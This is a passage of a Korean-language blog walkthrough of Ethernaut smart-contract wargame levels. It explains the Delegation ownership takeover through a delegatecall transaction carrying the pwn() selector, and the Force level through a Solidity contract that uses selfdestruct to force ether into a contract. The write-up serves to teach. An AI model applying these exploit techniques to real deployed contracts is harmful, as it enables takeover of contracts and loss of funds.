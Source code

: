 위의 결과는 모두 `0xdd365b8b`의 값이 되는데 이것이 메소드 셀렉터입니다. 따라서 Delegation의 폴백 함수를 다음과 같이 실행하면 Delegate의 pwn 메소드가
실행되면서 Delegation의 상태변수 owner를 msg.sender(여기서는 player)로 바꾸게 되므로 Delegation의 소유권을 가져올 수 있게 됩니다.

{% highlight html %}
await contract.sendTransaction({from:player, data:"0xdd365b8b"})
{% endhighlight %}

여기서 중요한 것은 두 컨트랙트의 storage layout이 거의 "일치"해야 한다는 것입니다. 즉 Delegate와 Delegation의 상태변수 선언부에 `address public owner`는
모두 첫 번째 위치에 선언되어 있습니다. delegatecall은 이렇게 "같은 위치"에 있는 상태변수의 값을 변경하는 것이 가능하므로 Delegate에 있는 코드가 Delegation의
상태변수를 쓸 수 있게 되는 것입니다.


### 7. Force (difficulty 5/10)

> Some contracts will simply not take your money ¯\\_(ツ)_/¯

"어떤 컨트랙트는 당신의 돈에 전혀 손을 대지 못할 것이다." 아리송한 문장이긴 하지만 이 말은 컨트랙트에 전송한 이더를 찾을 수 없는 경우를 조심하라는
의미로 받아들이면 될 것 같습니다.

문제에 주어진 컨트랙트는 아무것도 하지 않는 빈 컨트랙트입니다. 이 컨트랙의 잔액은 0입니다. 이 값을 0보다 크게 만드는 것이 이번 단계의 목표입니다.
아무것도 없는 컨트랙트에, payable 폴백 함수도 없는 컨트랙트에 어떻게 이더를 전송할 수 있을까요?

솔리디티에는 `selfdestruct`라는 함수가 있습니다. 이 함수는 이더리움에 배포된 컨트랙트를 비활성화시키는 함수입니다. 한번 비활성화된 컨트랙트는 다시 활성화시킬 수 없습니다.
메소드 실행이 되지 않고 상태변수 값이 모두 초기화됩니다(컨트랙트가 삭제되는 것은 아니지만 이더스캔에 Self Destruct로 표시됩니다). 또 지정된 계정으로 보유한 이더를 전부 전송합니다(가스비는 0).

따라서 Force 컨트랙트 주소를 selfdestruct에 지정하면 payable 함수가 없어도 Force는 이더를 받을 수 있게 됩니다. 그러나 전송된 이더는 그 누구도 인출하거나 손을 댈 수 없는
허공에 사라져 버리겠죠?😱


{% highlight javascript %}
pragma solidity ^0.4.25;

contract SelfDestructSend {

    uint public bal = 0;
    address public owner;

    constructor () public {
        owner = msg.sender;
    }

    modifier onlyOwner {
        require (msg.sender == owner, "Only owner can call this function.");
        _;
    }

    function () external payable {
        bal = msg.value;
    }

    function kill() public onlyOwner {
        address addr = 0xb64422CFDEd5DaB9D193cb6cE03f4ef2D8605fd0;
        selfdestruct(addr);
    }

}
{% endhighlight %}
